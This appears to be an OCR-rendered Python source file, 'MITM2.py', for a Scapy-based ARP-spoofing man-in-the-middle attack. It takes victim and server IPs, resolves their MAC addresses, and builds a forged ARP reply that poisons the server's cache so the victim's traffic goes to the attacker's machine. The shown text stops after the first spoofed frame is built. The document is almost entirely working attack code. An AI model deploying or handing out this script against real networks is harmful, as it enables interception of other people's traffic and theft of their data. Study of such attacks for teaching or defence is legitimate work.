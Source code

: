 \begin{verbatim}
#!/usr/bin/python3
#running command: python MITM2.py victimIP serverIP

import sys  #for command line argument
import time
from random import randint
from scapy.all import *
from scapy.layers.inet import *
import scapy
import socket
import uuid 

def get_ip():
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    try:
        # doesn't even have to be reachable
        s.connect(('192.255.255.255', 1))
        IP = s.getsockname()[0]
    except:
        IP = '127.0.0.1'
    finally:
        s.close()
    return IP


#==============================================================
# Collect Necessary Information 
#==============================================================
my_ip = get_ip()
my_mac = str(':'.join(['{:02x}'.format((uuid.getnode() >>
            ele) & 0xff) for ele in range(0,8*6,8)][::-1])) 

print("my_ip : " + my_ip)
print("my_mac : " + my_mac)

victim_ip = sys.argv[1]
server_ip = sys.argv[2]

arp_packet = ARP(op=ARP.who_has, #request mac
	psrc=my_ip,              #request to reply to attacker
	pdst=victim_ip)	  #IP of the mac attacker needs
result = sr1(arp_packet)         #reply packet
victim_mac = result[ARP].hwsrc   #mac of victim

print("victim_ip : " + str(victim_ip))
print("victim_mac : " + str(victim_mac))

arp_packet = ARP(op=ARP.who_has, #request mac
	psrc=my_ip,              #request to reply to attacker
	pdst=server_ip)          #IP of the mac attacker needs
result = sr1(arp_packet)         #reply packet
server_mac = result[ARP].hwsrc   #mac of server

print("server_ip : " + str(server_ip))
print("server_mac : " + str(server_mac))

print()

#==============================================================
# Create ARP Spoofing Packets
#==============================================================
reply1 = ARP(op=ARP.is_at,       #forging arp reply
	hwsrc=my_mac,            #attacker's mac as victim's
	psrc=victim_ip,          #victim's IP to attacker's mac
	hwdst=server_mac,        #telling server
	pdst=server_ip)          #server IP

go1 = Ether(dst=server_mac,      #sending to server
	src=my_mac) / reply1     #origin at attacker's mac



\end{verbatim}
